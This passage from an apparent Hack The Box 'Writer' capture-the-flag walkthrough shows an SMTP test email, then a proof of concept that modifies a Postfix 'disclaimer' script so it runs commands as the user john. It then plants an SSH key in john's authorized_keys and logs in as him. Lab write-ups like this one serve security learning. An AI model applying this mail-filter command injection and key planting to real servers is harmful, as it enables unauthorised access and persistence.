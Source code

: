 ```
<-  250 2.1.0 Ok
 -> RCPT TO:<irc@writer.htb>
<-  250 2.1.5 Ok
 -> DATA
<-  354 End data with <CR><LF>.<CR><LF>
 -> Date: Thu, 02 Dec 2021 09:18:25 -0500
 -> To: irc@writer.htb
 -> From: 0xdf@writer.htb
 -> Subject: Test!
 -> Message-Id: <20211202091825.195665@hacky>
 -> X-Mailer: swaks v20190914.0 jetmore.org/john/code/swaks/
 -> 
 -> ignore this
 -> 
 -> 
 -> .
<-  250 2.0.0 Ok: queued as 98F867ED
 -> QUIT
<-  221 2.0.0 Bye
=== Connection closed with remote host.

```

#### POC

I’m a bit skeptical about getting a reverse shell working from within Postfix, so I’ll start really small, by adding `touch /dev/shm/0xdf` to the top of the `disclaimer` script. It’s also important to note that every minute `disclaimer` is set back to it’s original state, so it’s important to write and then send the email immediately.

Now I’ll send an email by running the same command shown above, and the file exists:

```

kyle@writer:/etc/postfix$ ls -l /dev/shm/0xdf 
-rw------- 1 john john 0 Dec  2 14:23 /dev/shm/0xdf

```

It’s owned and only readable by john, so I can’t write things into the file. But this does confirm the process is run as john.

#### SSH Key

I’ll add a line at the top of the file to add my SSH key into john’s `authorized_keys` file:

[![image-20211202092057266](https://0xdfimages.gitlab.io/img/image-20211202092057266.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211202092057266.png)

I’ll send the email just like before, and now I can SSH as john using my key:

```

oxdf@parrot$ ssh -i ~/keys/ed25519_gen john@10.10.11.101
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
...[snip]...
john@writer:~$

```
